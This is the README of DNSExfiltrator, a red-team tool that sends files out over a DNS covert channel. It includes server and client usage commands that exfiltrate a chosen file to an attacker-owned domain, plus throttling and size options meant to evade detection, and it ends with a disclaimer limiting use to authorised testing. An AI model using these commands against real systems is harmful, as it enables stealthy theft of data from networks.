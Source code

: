 DNSExfiltrator
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

DNSExfiltrator allows for transfering (*exfiltrate*) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.

DNSExfiltrator has to sides:
  1. The **server side**, coming as a single python script (`dnsexfiltrator.py`), which acts as a custom DNS server, serving the payload data
  2. The **client side** (*victim's side*), which comes in two flavors:
  - `dnsExfiltrator.cs`: a C# script that can be compiled with `csc.exe` to provide a Windows managed executable
  - `Invoke-DNSExfiltrator.ps1`: a PowerShell script providing the exact same functionnalities by wrapping the dnsExfiltrator assembly

In order for the whole thing to work **you need to own your domain name** and set the DNS record for that domain to point to the server that will run the `dnsexfiltrator.py` server side.

Features
----------------------

DNSExfiltrator uses the system's default DNS server, but you can define a specific one (*useful for debugging purposes or for running the server side locally for instance*). DNSExfiltrator supports **basic RC4 encryption** of the exfiltrated data, using the provided password to encrypt/decrypt the data.

DNSExfiltrator also provides some optional features to avoid detection:
  - requests throttling in order to stay more stealthy when exfiltrating data
  - reduction of the DNS request size (*by default it will try to use as much bytes left available in each DNS request for efficiency*)
  - reduction of the DNS label size (*by default it will try to use the longest supported label size of 63 chars*)

<img src="https://dl.dropboxusercontent.com/s/fpg71h06xbwj33e/dnsexfiltrator_02.jpg?dl=0" width="800">

<img src="https://dl.dropboxusercontent.com/s/7c2aqlf4kax3mu9/dnsexfiltrator_01.jpg?dl=0" width="600">

Dependencies
----------------------

The only dependency is on the server side, as the `dnsexfiltrator.py` script relies on the external **dnslib** library. You can install it using pip:
```
pip install -r requirements.txt
```

Usage
----------------------

***SERVER SIDE***

Start the `dnsexfiltrator script passing it the domain name used:
```
root@kali:~# ./dnsexfiltrator.py -d mydomain.com -p password
```

***CLIENT SIDE***

You can use **either** the compiled version **or** the PowerShell wrapper (*which is basically the same thing*). Either case, the parameters are the same.

1/ Using the C# compiled Windows executable (*which you can find in the `release` directory*):
```
dnsExfiltrator.exe <file> <domainName> <password> [s=DNS_server] [t=throttleTime] [r=requestMaxSize] [l=labelMaxSize]
      file:           [MANDATORY] The file name to the file to be exfiltrated.
      domainName:     [MANDATORY] The domain name to use for DNS requests.
      DNS_Server:     [OPTIONNAL] The DNS server name or IP to use for DNS requests. Defaults to the system one.
      throttleTime:   [OPTIONNAL] The time in milliseconds to wait between each DNS request.
      requestMaxSize: [OPTIONNAL] The maximum size in bytes for each DNS request. Defaults to 255 bytes..
      labelMaxSize:   [OPTIONNAL] The maximum size in chars for each DNS request label (subdomain). Defaults to 63 chars.
```

2/ Using the PowerShell script, well, call it in any of your prefered way (*you probably know tons of ways of invoking a powershell script*) along with the script parameters. Most basic example:
```
c:\DNSExfiltrator> powershell
PS c:\DNSExfiltrator> Import-Module .\Invoke-DNSExfiltrator.ps1
PS c:\DNSExfiltrator> Invoke-DNSExfiltrator -i inputFile -d mydomain.com -p password -s my.dns.server.com -t 500
[...]
```
Check the EXAMPLES section in the script file for further usage examples.

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*